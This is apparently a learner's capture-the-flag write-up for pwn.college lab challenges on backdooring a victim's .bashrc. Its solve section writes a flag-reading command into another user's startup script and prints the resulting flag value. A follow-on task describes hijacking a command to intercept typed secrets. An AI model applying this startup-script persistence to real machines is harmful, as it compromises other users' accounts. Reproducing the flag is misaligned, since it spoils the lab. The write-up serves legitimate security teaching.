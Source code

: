 # Silly Shenanigans

## Bashrc backdoor
When your shell starts up, it looks for .bashrc file in your home directory and executes it as a startup script. You can customize your /home/hacker/.bashrc with useful things, such as setting environment variables, tweaking your shell configuration, and so on.

You can also use it for evil! An unwitting victim's .bashrc is a common target for shenanigans. Imagine sneaking onto your friend's computer and adding a echo "Hackers were here!" at the end of their .bashrc. That's funny, but the same capability can be used for much more nefarious purposes. Malicious software, for example, often targets startup scripts such as .bashrc to maintain persistence into the future!

In this challenge, we'll pretend that you've broken into a victim user's machine! That user is named zardus, with a home directory of /home/zardus. You, as the hacker user, have write access to his .bashrc, and zardus has read-access to /flag. The victim is simulated by the script /challenge/victim, and you can launch this script at any time to observe the victim logging into the computer. Can you get the flag?

### Solve
**Flag:** `pwn.college{ohRZeGRzp0I7t-4YdjySZB3sG8G.0VMzEzNxwCN2gjNzEzW}`

I added the command to read the flag in the .bashrc script and executed it.
```
hacker@shenanigans~bashrc-backdoor:~$ echo 'cat /flag' > /home/zardus/.bashrc
hacker@shenanigans~bashrc-backdoor:~$ /challenge/victim
Username: zardus
Password: ***********
pwn.college{ohRZeGRzp0I7t-4YdjySZB3sG8G.0VMzEzNxwCN2gjNzEzW}
zardus@shenanigans~bashrc-backdoor:~$ exit
logout
```

### New Learnings
I learnt about .bashrc being a startup script and how you can use it.

### References

## Sniffing input
In the previous level, you abused Zardus's ~/.bashrc to make him run commands for you.

This time, Zardus doesn't keep the flag lying around in a readable file after he logs in. Instead he'll run a command named flag_checker, manually typing the flag into it for verification.

Your mission is to use your continued write access to Zardus's .bashrc to intercept this flag. Remember how you hijacked commands in the Pondering PATH module? Can you use that capability to hijack the flag_checker?

